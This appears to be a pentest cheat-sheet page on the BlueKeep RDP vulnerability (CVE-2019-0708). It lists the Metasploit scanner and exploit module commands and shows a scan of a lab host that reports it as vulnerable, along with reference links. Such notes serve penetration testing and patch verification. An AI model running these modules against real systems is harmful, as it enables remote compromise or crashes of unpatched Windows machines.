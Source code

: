 ```yaml
---
title : "CVE-2019-0708"
# pre : ' '
description : "Remote Desktop Services Remote Code Execution Vulnerability."
date : 2020-03-23T12:07:45+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CVE-2019-0708 - BlueKeep RDP Remote Windows Kernel Use After Free

The exploit will cause bluescreen by default.

### Scanner

```plain
msf5 > use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
```

### Exploit

```plain
msf5 > use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
```

### Examples

### Scanner example

```plain
msf5 > use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
msf5 auxiliary(scanner/rdp/cve_2019_0708_bluekeep) > set rhosts 10.10.10.16
msf5 auxiliary(scanner/rdp/cve_2019_0708_bluekeep) > run

[+] 10.10.10.16:3389      - The target is vulnerable. The target attempted cleanup of the incorrectly-bound MS_T120 channel.
[*] 10.10.10.16:3389      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### URL list

* [nvd.gist.gov](https://nvd.nist.gov/vuln/detail/CVE-2019-0708)
* [Pentest-tools.com](https://pentest-tools.com/blog/bluekeep-exploit-metasploit/)
